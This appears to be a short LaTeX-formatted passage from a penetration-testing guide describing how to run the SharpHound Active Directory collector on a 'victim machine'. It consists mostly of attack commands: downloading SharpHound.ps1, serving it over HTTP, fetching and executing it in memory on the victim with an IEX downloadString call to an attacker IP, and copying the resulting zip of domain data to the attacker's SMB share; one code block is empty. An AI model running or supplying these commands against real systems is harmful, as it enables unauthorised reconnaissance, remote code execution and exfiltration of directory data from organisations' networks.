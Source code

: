 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
You can also do the injester technique from the victim machine it self with the \textbf{Sharphound.ps1} script.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1}
\FunctionTok{cat}\NormalTok{ SharpHound.ps1 }\KeywordTok{|} \FunctionTok{grep} \StringTok{"Invoke"}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Then in the victim machine, get the sharphound

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{IEX}\NormalTok{(}\FunctionTok{New-Object}\NormalTok{ Net.}\FunctionTok{WebClient}\NormalTok{).}\FunctionTok{downloadString}\NormalTok{(}\StringTok{"http://10.10.10.11/SharpHound.ps1"}\NormalTok{)}
\NormalTok{Invoke-BloodHound -CollectionMethod All}
\end{Highlighting}
\end{Shaded}

When the SharpHound is finished, you will see a \texttt{.zip} file in the victim machine that you need now to transfer on the
attacker one.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  on the attacker machine

\begin{Shaded}
\end{Shaded}
\item
  on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{copy}\NormalTok{ zipfile.}\FunctionTok{zip}\NormalTok{ \textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{\textbackslash{}smbFolder\textbackslash{}zipfile.}\FunctionTok{zip}
\end{Highlighting}
\end{Shaded}
\end{enumerate}
\end{document}
